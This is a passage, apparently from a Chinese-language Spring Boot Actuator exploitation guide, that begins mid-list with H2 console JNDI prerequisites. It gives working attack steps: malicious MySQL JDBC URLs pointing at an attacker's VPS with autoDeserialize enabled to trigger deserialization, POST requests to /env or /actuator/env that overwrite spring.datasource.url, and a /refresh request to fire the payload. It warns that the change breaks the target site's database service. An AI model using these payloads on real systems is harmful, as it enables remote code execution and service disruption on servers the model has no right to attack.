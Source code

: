 * 存在 `com.h2database.h2` 依赖（版本要求暂未知）
* spring 配置中启用 h2 console `spring.h2.console.enabled=true`
* 目标可以请求攻击者的服务器（请求可出外网）
* JNDI 注入受目标 JDK 版本影响，jdk  ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！

mysql-connector-java 5.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true

```

mysql-connector-java 8.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true

```

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值

```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}

```

##### [](#步骤四刷新配置-1)步骤四：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```
